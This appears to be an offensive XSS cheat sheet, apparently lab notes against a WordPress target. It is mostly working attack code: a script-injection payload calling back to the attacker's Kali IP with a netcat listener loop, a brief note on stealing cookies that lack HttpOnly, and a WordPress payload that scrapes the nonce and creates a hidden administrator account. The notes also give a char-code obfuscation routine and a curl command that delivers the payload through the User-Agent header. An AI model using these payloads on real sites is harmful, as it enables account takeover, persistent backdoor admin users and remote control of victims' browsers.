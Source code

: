 ### XSS to NC Reverse Shell
```
<script>setInterval(function(){d=document;z=d.createElement("script");z.src="//your-kali-linux-ip:4444";d.body.appendChild(z)},0)</script>

while :; do printf "zemo>$ "; read c; echo $c | nc -vvlp PORTNUMBER >/dev/null; done {type in kali linu}
```

### XSS to steal cookie
>The Secure flag instructs the browser to only send the cookie over encrypted connections, such as HTTPS. This protects the cookie from being sent in clear text and captured over the network.

>The HttpOnly flag instructs the browser to deny JavaScript access to the cookie. If this flag is not set, we can use an XSS payload to steal the cookie.
### XSS to Privilege Escalation
Js to capture the word press nounce
```
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```
Minify the above js code
```
https://jscompress.com/
```
Encode the minified js code
```
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```
Launch the attack
```
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(insert the encoded js here))</script>" --proxy 127.0.0.1:8080
```
